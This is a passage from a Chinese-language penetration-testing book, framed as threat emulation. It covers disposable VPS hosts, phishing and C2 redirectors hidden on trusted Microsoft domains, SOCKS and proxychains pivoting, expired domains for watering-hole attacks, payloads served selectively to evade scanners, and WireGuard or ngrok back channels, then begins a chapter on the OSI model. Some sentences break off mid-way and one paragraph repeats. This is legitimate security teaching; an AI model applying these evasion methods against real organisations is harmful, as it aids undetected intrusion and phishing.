- 3. https://github.com/OJ/gobuster/blob/c49ddbf3a767aa496ccc6cbf90f6aa002c30f3fca/gobusterdir/gobusterdir.go#L20

- 4. https://developer.mozilla.org/en-US/docs/Learn/Common_questions/What_is_a_URL#anchor

- 5. https://geminiadvisory.io/gemini-annual-report-2021-magecart-thrives-in-the-payment-card-fraud-landscape/

- 6. https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance

- 7. https://w3techs.com/technologies/details/pl-java

简单来说，要更改文件的哈希值以绕过基于哈希的威胁检测，简直轻而易举。只需在文件中额外添加一个字节——结果就是一个完全不同的文件哈希。对手所需付出的努力微乎其微。


沿着金字塔向上跳几级，来到工具（Tools）部分，我们会发现它被列为“具有挑战性”（challenging）。这是因为定制开发或精心调校的工具需要大量的开发工作和规划。除此之外，还需要花时间学习如何使用这些工具，以及如何将它们应用于特定环境。正因如此，它在金字塔中的位置更高。与更改文件的哈希值相比，开发和掌握新工具需要付出多得多的努力！

我们可以将**痛苦金字塔（Pyramid of Pain）**用作对抗模拟技术的一部分，向防御者解释攻击者为何以及如何选择某些资产。因此，在测试期间，我们可以确定应更改哪些指标以及多久更改一次。

## “一次性” IP 地址

如今，互联网上种类繁多的云服务为我们作为威胁模拟者提供了充足的机会来建立“一次性” IP。在这种概念下，我们获取一台新的 VPS 或其他在线服务器，并打算实施大量扫描攻击或其他高调攻击。如果这些端点被发现并封锁，我们可以简单地更换分配到的 IP，或者启动一个新实例。

### VPS 提供商

虚拟专用服务器（VPS）的使用方式与大型云服务提供商类似，我们可以租用一台拥有公网 IP 的服务器一段时间。这可以为我们提供一个“一次性”的场所，用来托管服务器、安装一些软件包，并按我们的意图使用它们。

每个 VPS 提供商都有各自独特的优缺点，有些提供商会默认阻止或禁止某些活动。例如，AWS 的 EC2 服务会自动阻止出站 TCP 25（SMTP），从而阻止我们发送钓鱼电子邮件。默认情况下，Hostwinds 没有此类限制，因此垃圾邮件发送者自然蜂拥而至。

如果你有兴趣获得一些免费额度来使用这些服务，可以在注册这些服务时考虑使用以下推荐链接和推荐代码：

- Digital Ocean：https://bit.ly/m4lWhereDigitalOcean

有趣的是，TOR 有一个专门介绍 ISP 和托管提供商的 Wiki 页面，根据它们历来对下架和滥用请求的响应情况，将其划分为“优秀”或“糟糕”的 ISP。^2 这些列表可用于帮助确定托管 TOR 节点的新提供商，并可能允许各种程度的“灰色”活动。

### 保加利亚

| 公司/ISP | ASN | 网桥 | 中继 | 退出节点 | 备注 | 最后更新 |
|---|---|---|---|---|---|---|
| VPS.BG | AS34224 | 是 | 是 | 是 | 他们不收集任何个人信息，你可以用比特币支付。 | 01/11/2016 |
| G-Core Labs | AS199524 | 是 | 是 | 否 | 他们不允许退出节点，如果收到滥用投诉，将暂停你的服务并限制你对账户的访问。KVM VPS。原生支持 IPv4+IPv6。* 支持 GNU/Linux、FreeBSD 和 Windows 服务器。不限流量。 | 06/2022 |

**图 4.2** TOR 项目 Wiki 中的“优秀 ISP”示例。


**图 4.4** 使用 Amazon Lightsail 创建虚拟服务器。该界面比 EC2 界面更易用，并清晰显示每月的费用。

利用 Lightsail 界面可以减少月末计费周期时的猜测，并帮助爱好者开发项目。就我们的目的而言，它有助于我们预测服务成本以及如何利用这些服务。

### Azure

利用 Azure 平台非常适合隐藏在 Microsoft 域名和服务中，但在部署低成本机器方面存在问题。根据作者的经验，由于所有受支持的 Microsoft 区域都很繁忙，我们一直未能在 Azure 上创建免费层级的 VM。

然而，Azure 的 App Services 允许我们只部署一个网站，而不是一个完整的系统。通过其部署基础设施，我们可以实现这一点，甚至可以获得一个特定的子域。


**图 4.5** 在 Azure 上部署一个主机名为 [notmalicious.azurewebsites.net](https://notmalicious.azurewebsites.net) 的新网站。该子域将隐藏在知名且受信任的 [azurewebsites.net](https://azurewebsites.net) 域名中。

利用这些服务，我们可以身处受信任的 Microsoft 域名之中，同时能够部署我们选择的代码。这让那些蜂拥隐藏在合法服务中的攻击者有利可图。

### Heroku

Heroku 是另一个类似的基于云的部署界面，不过它还提供了有趣的“插件”（Add-ons）概念。这些插件是通过 Heroku 运行的附加托管第三方服务，有助于扩展额外功能。


**图 4.6** 用于电子邮件和短信功能的一组 Heroku 插件示例。集成这些插件可以使我们快速利用新能力。

将 Blower.io 的短信功能等快速集成到 Heroku 应用中，能够加快我们开展新操作的速度。集成这些插件很简单，文档支持也很完善。

### Hostwinds

在威胁情报中，Hostwinds 平台往往更多地与垃圾邮件和恶意软件攻击相关联，因为它默认允许出站 SMTP。请记住，AWS 对出站 SMTP 有限制，需要通过请求由 AWS 团队手动解除——Hostwinds 并没有此类限制。


**图 4.7** Hostwinds 的 VPS 定价等级。

Hostwinds 提供的 VPS 相对便宜，并使我们能够立即开始发送电子邮件，因此成为托管钓鱼网站的有利选择。当我们在互联网上选择服务托管地点时，这家提供商是另一个很好的选择。

## 利用受信任站点

利用受信任站点（Living Off Trusted Sites，LOTS）项目收集了一系列可被滥用来托管恶意数据的公共网站。这一概念使我们能够通过利用大型提供商的 eTLD 更好地模拟攻击者，使恶意活动更难以被检测到。该项目可在 [https://lots-project.com/](https://lots-project.com/) 获取。例如，域名 `*.web.core.windows.net` 可用于在合法的 `windows.net` eTLD 下托管钓鱼网站。与本章节中探讨过的站点类似，这些网站都可以被利用来获取优势，并滥用其隐式信任。


**图 4.8** 利用 LOTS 项目识别 [web.core.windows.net](https://web.core.windows.net) 子域。

LOTS 项目拥有多个不同的网站，不仅帮助用户了解如何从这些受信任的网站创建网站，还帮助用户识别它们。我们可以利用这个项目来选择在何处以及如何托管我们的服务，从而尝试融入受信任的网站。在规划如何保护正在创建的基础设施时，这种方法特别有效。

## API 网关

近年来，许多云服务提供商开始允许我们通过各种方式将流量重定向到其 API 网关。这对于我们利用这些 LOTS 网站，同时将目标流量重定向到我们的 C2 服务器来说，是一种便捷的方式。API 网关作为一种服务，设计用于在应用程序和后端服务之间充当中介——我们可以利用这一功能，选择云服务应将特定载荷引导至何处，以路由流量。

### Azure API 网关

我们可以在 Azure 中相对轻松地建立 API 网关。这可通过 Azure 门户中的“API 管理”页面实现。点击此页面将打开 API 管理服务页面，我们可以在其中创建网关。


**图 4.9** 在 Azure 门户中，导航到 API 管理服务。

在下一页，选择**创建**以新建 API。然后我们可以填写信息来创建 API 网关，包括创建将要使用的特定子域。在下面的示例中，我们使用了名称`really-important-dont-delete`（意为“非常重要——切勿删除”），旨在给人一种重要性的感觉。初级分析师或 SOC 响应人员可能会看到这个“重要”的子域，并忽略所有警报，因为它毕竟是微软的 eTLD，对吧？


**图 4.10** 填写 API 管理页面以创建新网关。在这里我们可以指定我们的子域。

在创建网关时，我们可以选择**消耗**层，因为它每月为这个网关提供多达 100 万次免费请求。


**图 4.13** 创建 HTTP API 以将活动重定向到我们的 C2 服务器。

现在需要添加一个操作，告诉 API 做什么以及如何处理请求。在此场景中，我们希望将所有 GET 请求转发到我们的 C2 服务器，即 [https://m4lwhere.org/](https://m4lwhere.org/)。为此，在“API”选项卡下选择我们创建的 API，然后点击**添加操作**。


**图 4.14** 向我们新定义的 API 添加操作。

在下一页，我们将指定要请求的 HTTP 方法以及请求位置。这允许我们定义 API 的访问位置，以及 Azure 将请求发送到我们的 C2 服务器的位置。


**图 4.15** 向我们的 API 添加操作。

保存后，我们需要点击此操作的**设置**，并确保取消勾选**需要订阅**按钮。移除这一要求可确保我们能够允许相关活动，而无需获取访问 Azure 资源的密钥。

最后，我们将能够向我们的新 API 发送请求，并验证请求是否由 API 网关路由和返回。根据我们定义的 API 网关和 API，我们可以向`https://really-important-dont-delete.azure-api.net/totally-legit/legit`发送请求，Azure 会将其路由到`https://m4lwhere.org/totally-legit`的后端。


**图 4.16** 为新操作创建路由。

Terraform 是一个众所周知的工具，可帮助快速配置云服务器的基础设施。在设置基础设施时，可以利用 Terraform 来配置特定类型和配置的云服务器。网上有很多博客文章和教程可以提供帮助。

如果我们知道自己计划在包管理器中利用某些类型的软件包，我们可以在运行脚本时将它们自动添加到系统中。

总之，利用并了解互联网上各种各样的 VPS 提供商。每个提供商都提供了一定程度的信任和活动，这使其独具特色。了解你的目标将如何响应，并确保你定位攻击的方式能够取得成果。

## 代理技术

代理用于代表我们自身掩蔽并执行请求，使我们能够有效隐藏自己的位置。在付费渗透测试项目中，渗透测试人员通常利用各种代理来确保所有测试流量都来自已知位置。与此同时，恶意个人也会将代理用作一次性位置来掩盖其真实位置。我们可以利用这项技术来确保自己的位置得到适当保护。

重要的是要理解，使用这项技术本身并不违法或不道德。如何使用该技术则完全是另一回事，恶意利用技术欺骗他人才是一种非法且不道德的活动。我们将学习如何有效利用它来保护自己，并为他人提供安全服务。

### SOCKS 代理

Socket Secure（SOCKS）代理是互联网上最简单、最常见的代理服务器形式之一。它们可以轻松创建，并通过 SSH 连接进行隧道传输，从而提供安全受保护的互联网连接。此外，各种免费和付费提供商还提供可在互联网上使用的 SOCKS 代理。

使用代理的理念是让互联网上的另一台服务器接收你的请求并代为发送。通过处理该请求，目标网站不会知道原始的请求身份是谁。相反，服务器只看到直接发送请求的中间代理服务器。

我们可以使用 SSH 命令连接到我们控制的服务器来建立 SOCKS 代理。这个用于 SOCKS 代理的 SSH 隧道会在我们的本地主机上打开一个端口，我们可以将工具和浏览器指向该端口，以将流量导向互联网。建立 SOCKS 连接非常简单，可以使用类似下面的命令完成：

```
ssh -D 9123 m4lwhere@myserver.lol
```

此命令的作用是为服务器`myserver.lol`上的用户名`m4lwhere`建立 SSH 连接。`-D 9123`开关告诉 SSH 在我机器上打开本地 TCP 端口 9123，以便通过`myserver.lol`发送流量。登录到服务器后，SSH 工具将在客户端（即我们的机器）上打开本地端口 9123，以允许 SOCKS 连接通过 SSH 连接进行隧道传输。这假设你拥有该服务器上的账户访问权限，否则 SOCKS 连接将无法建立。

一旦建立了 SOCKS 代理，我们可以通过将浏览器指向正确的位置来连接它。大多数主流浏览器都在其设置中提供 SOCKS 代理配置，我们可以使用这些配置来指定已打开的本地端口 9123。

SOCKS 代理的另一个主要优势是，它们可用于在内部环境中进行内网横向移动。如果 DMZ 资产被攻破，被攻破的服务器很可能能够直接与网络上的其他内部服务器通信。通过在 DMZ 主机上建立 SOCKS 代理，攻击者可以将其请求从自己的机器直接隧穿到内部网络，以进行进一步侦察。


**图 4.19** 使用 DMZ 服务器作为 SOCKS 代理，以访问安全网络上的内部主机。

### ProxyChains

有些程序原生支持使用 SOCKS 代理来重定向流量，而其他程序则没有内置该支持。`proxychains`工具可以强制不支持代理的程序使用特定的代理或代理链，从而有效隐藏其来源点。^3^

请记住，虽然 SOCKS 代理是进行横向移动和访问内部资源的有效方式，但它们并不适合大规模的扫描侦察。轻量扫描和 Web 侦察（例如使用 Burp 浏览内部服务）是有效利用这项技术的方式。对于更深入、更广泛的扫描，要么在现有主机上使用本机自带二进制文件（Live-off-the-Land），要么使用类似于 Metasploit 的 Meterpreter 路由功能^4^来通过主机路由流量。

要使用`proxychains`工具，我们必须为其创建一个配置文件供`proxychains`程序读取。默认情况下，程序按以下顺序搜索名为`proxychains.conf`的配置文件：

```
file listed in environment variable PROXYCHAINS_CONF_FILE or provided as
a -f argument to proxychains script or binary.
./proxychains.conf
$(HOME)/.proxychains/proxychains.conf
/etc/proxychains.conf
/etc/proxychains4.conf
```

这意味着程序将查找`proxychains.conf`文件，并使用它找到的第一个配置。示例配置文件的副本位于`/etc/proxychains4.conf`，可以将其复制到上述位置之一，然后根据我们的配置目的进行编辑。

`proxychains`还支持多种使用代理的方式，其中代理可以通过一个接一个的链进行访问，以进一步混淆活动的来源。此外，通过某种配置类型，代理可以按随机顺序访问。**动态链**用于按配置文件中列出的顺序访问代理，跳过任何被标记为宕机或不可达的代理。**严格链**是连接

使用 `dynamic_chain` 时，如果发生特定错误或超时，`proxychains` 工具会尝试自动从中恢复。在下面的代码块中，我们可以看到所请求的服务器之一发生了超时。为了动态恢复，`proxychains` 使用了另一组服务器来完成请求。

```text
$ proxychains curl icanhazip.com
[proxychains] config file found: /home/chris/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Dynamic chain  ...  72.195.34.59:4145  ...  72.221.196.157:35904  ...  72.210.252.134:46164  <--socket error or timeout!
[proxychains] Dynamic chain  ...  72.195.34.59:4145  ...  72.221.196.157:35904  ...  icanhazip.com:80  ...  OK
72.221.196.157
```

现在，你可能是来自 [icanhazip.com](https://icanhazip.com) 网站。知道我们可以动态地、以编程方式将请求路由到 TOR 网络中，这几乎为我们能够实现的目标提供了无限可能。

在企业网络中识别并阻止 TOR 访问是很困难的，但通过应用网络威胁情报（CTI）可以轻松简化这一过程。TOR 节点的短暂性导致每天都会出现大量新节点；人工根本不可能跟上这种变化速度。因此，应用动态更新的 CTI 对于保护企业网络整体安全免受 TOR 带来的威胁至关重要。

## 被动 DNS 与域名注册

由于主机和系统通过互联网上的 DNS 记录相互关联，它们会留下与 DNS 记录关联的 IP 地址的永久记录。这可能会间接使我们的基础设施和系统受到额外审查，或暴露我们托管服务的位置。被动 DNS 包含将 IP 关联回域名的历史数据，而当前的 DNS 则用于确定当前服务所在的位置。

有几个提供商可以为我们展示这些数据。**VirusTotal** 和 **PassiveTotal** 是收集部分 DNS 数据最有效的两个提供商。这些结果显示，某个网站存在多个已知子域名，甚至哪些 IP 地址已知与其域名相关联。


**图 4.22** 对 [`m4lwhere.org`](https://m4lwhere.org) 的 PassiveTotal 分析，显示了历史上使用的各种子域名。


**图 4.23** 对 [`m4lwhere.org`](https://m4lwhere.org) 的 VirusTotal 分析，显示了当前及历史上使用的已知 IP 和域名。

在为我们的服务建立 DNS 记录时，必须注意记录发布的位置及其指向。如果我们在一个 IP 地址上托管多个不同的钓鱼服务，其中一个钓鱼网站被入侵，很可能会暴露其他网站同样已被入侵。

此外，我们还可以使用一些工具和技术来注册近期过期的域名。这样做的目的是借助域名在过期前积累的声誉，让攻击者在被发现之前利用这份信任。

这一过程中不可或缺的是 [`www.expireddomains.net`](https://www.expireddomains.net) 提供的数据，该网站公开提供近期已过期和即将过期的域名。<sup>9</sup> 访问此页面时，我们还可以看到哪些即将过期的域名拥有最多的反向链接，即来自其他网站的外部链接数量。选择反向链接数量多的域名，会大大提高水坑攻击的成功率。


**图 4.24** [`ExpiredDomains.net`](https://Expireddomains.net) 截图，显示了各种即将过期的域名，并按反向链接数排序。反向链接越多，水坑攻击的成功率就越高。

这些数据也可以通过 **Domain Hunter**<sup>10</sup> Python 工具获取，该工具同样会识别过期域名的声誉。这可以快速帮助我们找到之前声誉良好的域名，从而避开检测工具的注意。该工具的其他优点包括按关键字搜索以及根据 Alexa 排名靠前的域名进行过滤。

`domainhunter.py` 脚本需要一个有效的 `expireddomains.net` 账户；该账户可以很快在其网站上注册。此外，找到的域名还可以与已知的恶意软件域名列表进行比对，以确认这些域名之前是否已被标记为恶意。这为我们提供了信息，以便选择并注册一个有效的域名来使用。

DNS 是我们在侦察阶段识别主机的有效工具，但我们也必须明白，同样的信息也可能被用来对付我们的攻击基础设施。了解被动 DNS 归属和歷史记录如何被用来识别我们的系统非常重要。选择已过期的现有域名还能让我们灵活地发起攻击，并有可能绕过检测工具。

## 目标检测

我们可以通过其他方式来混淆和保护我们的基础设施，例如采用各种目标检测和选择性载荷投递方法。如果我们预期目标会来自某个 IP 范围或 ASN，就可以调整系统只向这些地址投递载荷，而对其他地址返回良性结果。我们还可以结合特定的 HTTP 头、`User Agent`，甚至是特定的 TCP 源端口，以确保只响应预期目标。

组织使用在线工具（如 **VirusTotal** 或 `urlscan.io`）来检查链接或文件是否恶意是极为常见的。IT 帮助台或系统管理员会使用这些工具来判断某个对象是否应被视为恶意。然而，这些工具和检查在面对能够智能且有选择地确定攻击目标的系统时就会失效。


**图 4.25** 向我们不关注的任何 CIDR 提供默认启动页，并向预期的目标 CIDR 提供载荷。

我们可以通过多种方式来检查这一点。使用 PHP 时，我们可以查看接收到的 `$_SERVER['REMOTE_ADDR']` 值。该值表示……的 IP 地址

Digital Ocean 提供了几个快速简单的示例，介绍如何将其无服务器代码基础设施部署到线上，参见 [`https://github.com/digitalocean/sample-functions-php-helloworld`](https://github.com/digitalocean/sample-functions-php-helloworld)。如果你还没有 Digital Ocean 账户，可以考虑使用推荐链接 [`https://bit.ly/m4lvheDigitalOcean`](https://bit.ly/m4lvheDigitalOcean) 注册，可获得 200 美元的免费额度来探索这项活动。

我们可以检查 IP 以及一些其他因素，以帮助决定是否应该发送载荷。另一个我们可以轻松控制的就是 `用户代理` 字段，我们可以指定一个特定的字符串作为“签名”来传递载荷。此外，我们还可以在请求中放置另一个 HTTP 头，帮助我们识别“好”请求以提供载荷。我们甚至可以更具体地使用特定的源端口或源端口范围，并结合这些其他因素。

在创建了所有这些规避恶意软件分析工具检测和识别的措施之后，我们可以将攻击上传到互联网上某个一次性主机，并检查这些服务会返回什么结果。例如，我们可以将服务作为 AWS Lightsail 或 Digital Ocean 的 Droplet 主机启动，确保我们的 PHP 代码按预期设置并正常运行，然后对网站运行扫描器，查看返回的内容。为了进一步隐藏，我们可以修改原始的“`Apache 设置测试页`”默认启动页，将其用作我们检查脚本的模板。请记住，我们还需要根据文件扩展名修改 Apache/Nginx 使用的搜索顺序。

我们可以将 PHP 检查代码放在默认安装启动页文件的开头，在该页面中识别 IP 是否为“好” IP。如果 IP 不是我们要检查的目标，我们将让服务器仅返回启动页，从而使分析工具认为这台服务器要么是刚刚设置的，要么上面没有其他内容。

这项活动只是将文件隐藏于合法服务和系统之间的多种不同方式的冰山一角，这类攻击在很大程度上依赖于执行者的创造力。如果你能设想出如何提供文件并检查扫描器，就可以通过代码来实现。

## 后门通道

后门是我们作为攻击者在利用目标后继续与目标通信的方式，并可确保如果我们失去连接，还能重新返回。通常，这些后门会出现在对目标成功利用之后。由于本章的重点不是利用，而是混淆和欺骗，因此我们不会讨论目标是如何被利用的，而是专注于如何保持连接。

有几种有趣的方法可以通过有效的新技术来实现这一点。建立持久性的经典方法是通过附加的用户账户和启动脚本中的持久反向 Shell，但我们将重点放在连接本身返回给我们，而不是底层的利用/持久化机制。

### WireGuard

WireGuard 是一种极其简单、快速、现代的 VPN 技术，它使用 UDP 结合一组预共享密钥来路由数据包。¹³ 它被设计为简单、灵活、快速且安全。由于它基于 UDP 传输层协议运行，因此速度更快，并减少了通过通道建立 TCP 连接所带来的开销。与传统基于 TCP 的 VPN 相比，这种速度在我们连接到 WireGuard 对等端时尤为明显。由于它基于 UDP 传输层协议运行，因此速度更快，并减少了通过通道建立 TCP 连接所带来的开销。与传统基于 TCP 的 VPN 相比，这种速度在我们连接到 WireGuard 对等端时尤为明显。

在设计上，除非正确设置加密配置，否则 WireGuard 不会对开放端口上的任何流量做出响应。虽然这确实会给故障排除带来不便，但当它按预期运行时，任何探测该 UDP 端口的端口扫描器都不会收到响应，除非它们拥有密钥。从我们的角度来看，这对于隐藏服务非常有用，因为我们在互联网上的 WireGuard 对等端不会显示任何开放服务，无论执行了多少次扫描。

在使用 WireGuard 之前，我们需要确保已安装所需的包或软件。对于基于 Windows 的机器，有一个基于 GUI 的系统用于管理隧道，可从 [`https://www.wireguard.com/install/`](https://www.wireguard.com/install/) 下载。对于基于 Linux 的机器，大多数包管理器都会通过 `wireguard` 包名安装它，如下面的命令所示。

```
sudo apt install wireguard
```

要通过 WireGuard 连接两个系统，我们必须为每台机器创建一组密钥。WireGuard 利用公钥密码学，并将拥有一对公钥和私钥来加密活动。要开始使用，我们可以按照 WireGuard 网站上的快速入门命令操作，参见 [`https://www.wireguard.com/quickstart/`](https://www.wireguard.com/quickstart/)。

我们必须从生成密钥对开始。这可以通过 `wg genkey` 命令完成。然后将这些信息填入 WireGuard 配置文件，以确保执行正确的加密功能。

```
$ wg genkey > private        # Create the private key
$ cat private
2NK4DMK0o8LrGgfLfqoH8Xtc6IaegUm9alJZiaxDz1s=       # Our sample private key

$ wg pubkey < private        # Create public key from private key
8vBgNPyPBAX/3dRtd0HFEvxbQ+8zN1FiHUb+mtIuu34=       # Our public key
```

要运行 WireGuard 程序，我们可以使用 `wg-quick` 命令根据预配置文件快速启动 WireGuard 隧道。默认情况下，`wg-quick` 命令会在 `/etc/wireguard` 目录中搜索命令中提供的配置文件。例如，命令 `wg-quick wg0` 将搜索 `/etc/wireguard/wg0.conf` 文件并尝试启动 WireGuard 隧道。

要使用它，我们必须确保在 `wg0.conf` 中放置一个配置文件。下面是一个示例配置文件——用于连接互联网上的对等端。每个配置文件都必须包含 `[Interface]` 和 `[Peer]` 部分，以了解连接到另一台主机的地址和方式。`[Interface]` 是主机上的本地 WireGuard 接口，将包含分配给该 WireGuard 接口的 IP 地址。`PrivateKey` 用于加密从该接口发出的通信，并使用与端点对等端共享的关联 `PublicKey` 进行解密。

```
[Interface]
Address = 100.64.0.3/32
ListenPort = 51183
PrivateKey = 2NK4DMK0o8LrGgfLfqoH8Xtc6IaegUm9alJZiaxDz1s=

[Peer]
PublicKey = YpXkz+iuD6kq9cUQPqrekAZGxeD0Ruv0AnIROdRBTs=
Endpoint = 10.0.0.1:443
AllowedIPs = 100.64.0.0/24
PersistentKeepalive = 25
```

上述配置将在 WireGuard 接口上设置地址 **100.64.0.3**，并尝试与主机 **10.0.0.1** 建立连接。这要求我们有一个单独的、传统的接口，可以直接连接到 **10.0.0.1**。WireGuard 接口将对通过 10.0.0.1 连接的流量进行加密，并在 100.64.0.0 网络上建立一组新的 IP。`PersistentKeepalive` 用于定期发送数据包，以保持 NAT 穿透持续有效。

在注册账户并安装 `ngrok` 工具后，系统将使用你 `ngrok` 配置文件中提供的身份验证令牌进行配置。启动新隧道可以像下面的代码一样简单：

```
ngrok http 80
```

此命令创建一个 `ngrok` 隧道，将 `localhost` 上的 80 端口转发到一个具有主机名的、可通过互联网路由的目标地址。在下面的示例中，我们获得了一个随机主机名，用于活动访问。请注意，随机主机名可能源自系统的 WAN IP，这可能会泄露不必要的信息。在下面的示例中，由于字符串中提供了 WAN IP，完整域名已被涂黑。


**图 4.30** 运行 `ngrok` 将 `localhost` 上的 HTTP 转发到互联网可路由地址的截图。

Ngrok 可以支持的远不止简单的 HTTP，它同样支持基于 TCP 的隧道。例如，要转发 SSH 访问，命令 `ngrok tcp 22` 将通过 TCP 隧道为 `localhost` SSH 提供互联网访问。在 `ngrok` 文档中还提供了其他几个关于如何使用该工具的示例。¹⁵

```
ngrok http 80                         # secure public URL for port 80 web server
ngrok http --subdomain=foo 8080         # port 8080 available at foo.ngrok.io
ngrok http foo.dev:80                   # tunnel to host:port instead of localhost
ngrok http https://localhost:5001        # expose a local https server running on port 5001
ngrok tcp 22                            # tunnel arbitrary TCP traffic to port 22
ngrok tls --hostname=m4lwhere.org 443   # TLS traffic for foo.com to port 443
```

Ngrok 还为我们提供了灵活性，如果我们正通过几个其他网络进行跳板攻击，它可以提供一条更“直接”的路线。这也能让捕获新 Shell 并与它们交互的故障排除工作变得更加容易。在我们利用系统进行跳板以获取更深层访问时，请注意这一点。

6. `https://conference.hitb.org/hitbsecconf2010kul/materials/D2T1%20-%20Dennis%20Brown%20-%20Botnet%20Command%20and%20Control%20with%20Tor.pdf`
7. `https://www.torproject.org/download/`
8. `https://pypi.org/project/requests-tor/`
9. `https://www.expireddomains.net/expired-domains/`
10. `https://github.com/there4/express/domainhunter`
11. `https://stackoverflow.com/a/594134`
12. `https://linuxhint.com/download_file_php/`
13. `https://www.WireGuard.com/`
14. `https://www.kali.org/blog/wireguard-on-kali/`
15. `https://ngrok.com/docs/ngrok-agent/`

# 5 漏洞识别

## 引言

漏洞潜伏在每一个程序、网站、域名和访问控制策略中。难点在于找到它们的位置、如何利用它们，以及如何利用这种漏洞来证明其影响。我们也不应只局限于一种漏洞，而是可以将多种不同的漏洞组合起来，构建我们的利用工作流，以讲述一个最具影响力的故事，说明为什么它很重要。

要有效地发现和利用漏洞，我们必须理解基础的技术层面。如果我们发现了一个漏洞，却无法解释它为什么是个问题，或者这个缺陷是如何由代码引起的，那么我们就没有机会帮助他人修复这个弱点。了解协议或网络应该如何运行，将有助于我们快速发现异常项目。网络和应用程序中的异常或奇怪项目通常表明某些东西可能被用来利用弱点——我们的工作就是找出这些是什么以及如何修复它们。

本章在介绍漏洞识别之前，先提供一个计算机网络速成课程。在没有扎实的计算机网络和概念基础的情况下尝试枚举系统中的漏洞，将显著增加检测、利用和修复工作的难度。

故障排除是任何黑客或渗透测试人员能学到的最有效的技能。如果没有适当的框架、对目标和标准的识别，或对目标的清晰认识，在测试过程中很容易浪费数小时而无所作为。相反，依靠故障排除技能，并了解计算机和网络的设计方式，不仅会让我们高效，还会让我们在工作中极具杀伤力。

只有一种方法可以保证一台机器无法被黑客入侵——把它打碎成数百万片，扔进大海中央。虽然你可以放心知道这台机器不会被入侵，但你也意识到，你无法再与一台碎成碎片沉在海底的机器开展业务。所有企业、公司和组织都必须承担一定程度的风险来开展运营，作为安全专业人员，我们的责任是确保将风险水平降低到尽可能低的程度。

在我们识别出对组织来说风险过大的领域时，我们必须清晰、简洁地描述影响和风险。这就是为什么知道如何武器化漏洞很重要，这样我们才能展示漏洞带来的明确影响。C级高管无法忽视这样一个事实：企业设备上的目录遍历漏洞可以被用来收集知识产权——敏感文件可以直接呈现给他们，并展示这些文件是如何被收集的。

要发现漏洞，我们需要像攻击者一样思考。幸运的是，有很多方法可以练习这种思维方式，让我们学会如何发现可能导致问题的东西。

## 精通基础

对于美国海军水兵来说，“精通基础”计划旨在帮助水兵了解他们及其家人可用的基本资源。^1 这些计划代表了海军职业生涯的一些基础方面，帮助新水兵融入指挥系统并取得成功。如果无法获得并正确理解这些计划，水兵往往难以在其专业领域内作为团队一员有效发挥作用。虽然这与计算机黑客没有直接关系，但我们可以应用基础知识的概念来扩展和加强我们在网络领域的工作。

在网络安全领域，我们可以将同样的原则应用于学习计算机网络和计算机系统如何运作的基础理论的来龙去脉。如果没有扎实的理解，怎么能指望有机会有效地破坏某些东西？让我们从学习计算机如何相互通信以及这些协议如何运作开始。

### 计算机网络


网络的设计是为了让计算机能够相互通信并跨越互联网，从而允许信息传输以有效地开展业务。在过去几十年中，计算机和技术在业务中的使用呈爆炸式增长，使得操作能够以更有效的方式完成。组织继续购买和实施新设备和程序是完全合理的，因为它们允许在非工作时间以更快的速度和更高的准确性开展更多业务。

网络设备的激增也导致大多数组织的足迹和攻击面增加。由于这些设备需要连接到网络，因此可以远程访问它们。据估计有301亿<sup>2</sup>，这为企业的攻击带来了许多新领域。

要使一台设备与另一台设备通信，它们需要说同一种语言。如果我不懂法语，你对我说多少法语都没用——这毫无希望，因为我一点头绪都没有。然而，如果你对我说英语，我就能准确理解并参与对话。我可能对西班牙语也有一点机会，但英语肯定是最好的希望！

同样的想法也适用于计算机系统——它们必须说同一种语言才能相互理解。但谁来决定这种语言是什么？语言是什么？是否也可以改变语言？好消息是，计算机必须遵循既定的标准、程序和协议！

### OSI模型

7层开放系统互连（OSI）模型用于描述数据在通过网络发送到其正确目的地之前如何被封装和打包。对这些层的深入理解不仅对黑客攻击至关重要，对系统和服务的故障排除也至关重要。该模型由国际标准化组织（ISO）制定，旨在标准化数据在网络中的封装和传输方式。

OSI模型由七层组成，每一层直接与其上方或下方的层通信。每一层之间也是相互独立的，这意味着第七层的数据类型不会影响第三层的数据传输方式。每一层都会围绕前一层进行封装或添加报头，以有效跟踪和管理当前层的信息。这使得我们的数据可以通过以太网、Wi-Fi、同轴电缆或光纤物理网络传输，而不会影响数据呈现给目标应用程序的方式。

**表5.1**  

**OSI模型的层号、名称、单元和描述**

| # | 层名称 | 单元 | 描述 |
|---:|---|---|---|
| 7 | 应用层 | 数据报 | 直接向最终用户提供网络服务，促进应用程序之间的通信，并支持用户与网络的交互。 |
| 6 | 表示层 | 数据报 | 处理数据表示和加密，确保一个应用程序发送的信息可以被另一个应用程序理解。加密发生在此层。 |
| 5 | 会话层 | 数据报 | 建立、管理和终止应用程序之间的会话，允许数据交换的同步和检查点设置。 |
| 4 | 传输层 | 段 | 提供主机之间的端到端通信，确保可靠高效的数据传输、流量控制和错误恢复。 |
| 3 | 网络层 | 数据包 | 管理不同网络之间数据包的逻辑寻址和路由，实现网间通信。 |
| 2 | 数据链路层 | 帧 | 处理数据帧在特定物理介质上的可靠传输，提供错误检测和纠正。 |
| 1 | 物理层 | 比特 | 处理数据的物理传输，包括网络通信的电气、机械和物理方面。 |

当数据从第七层向下传递到第一层时，数据的单元也会发生变化。由于我们处理的是要通过网络发送的应用程序数据，我们将第七层、第六层、第五层和第四层称为数据或数据报。在第四层（传输层），数据单元现在是段。一旦数据到达第三层，单元变为数据包，用于描述信息在IP网络中传输的情况。第三层将数据包传递给第二层，在第二层数据包被转换为帧。帧用于在第二层网络中交换数据包。为了物理传输帧，帧被传递给第一层，第一层将帧转换为一组比特。这些比特通过线缆（或对于Wi-Fi，通过无线电频谱）物理发送，并由远程网络设备接收。

一旦被目的地接收，比特被转换回帧以供第二层解释。然后，帧被转换为IP网络的数据包。之后，数据包被转换为数据报，传递给传输层，并继续向上传递协议栈，直到到达预期的应用程序。这与信息发送时的过程相同，只是反向转换，以去除信息在封装时添加的报头。


**图5.1** 沿OSI模型协议栈向下传递，到达物理介质以比特形式传输，然后由目的地在每一层进行解释。

作为黑客，我们必须理解信息如何在网络中传递。当我们窥探网络以搜索漏洞时，理解正常网络应该如何运行能让我们洞察异常活动。这些奇怪和不寻常的项目应进一步调查，以帮助确定它们是否可能是攻击者可以利用的弱点。

### 第1层：物理层

最低层是OSI模型的物理层。这些是用于在网络中传输信息的物理电缆和无线无线电信号。要检查我们是否具有第1层连接，各种媒介方法通常有一个指示灯或状态符号，以显示电缆已连接并正在传输某种类型的数据。


